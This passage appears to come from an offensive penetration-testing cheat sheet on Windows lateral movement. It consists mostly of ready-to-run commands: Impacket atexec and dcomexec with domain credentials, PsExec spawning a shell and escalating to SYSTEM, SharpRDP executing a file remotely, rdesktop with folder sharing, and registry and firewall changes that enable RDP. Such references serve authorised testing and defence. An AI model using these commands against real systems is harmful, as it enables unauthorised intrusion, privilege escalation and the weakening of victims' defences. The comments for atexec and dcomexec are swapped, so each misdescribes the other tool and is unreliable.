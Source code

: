 ```powershell
# A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. 
root@payload$ python atexec.py DOMAIN/username:password@10.10.10.10

# Executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
root@payload$ python dcomexec.py DOMAIN/username:password@10.10.10.10
```

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe

# switch admin user to NT Authority/System
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s 
```

## RDP Remote Desktop Protocol 

Abuse RDP protocol to execute commands remotely with [SharpRDP](https://github.com/0xthirteen/SharpRDP)

```powershell
PS C:\> SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```

Or connect remotely with `rdesktop`

```powershell
root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
root@payload$ rdesktop -u username -p password -g 70 -r disk:share=/tmp/myshare 10.10.10.10
# -g : the screen will take up 70% of your actual screen size
# -r disk:share : sharing a local folder during a remote desktop session 
```

Note: you may need to enable it with the following command

```powershell
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
PS C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```
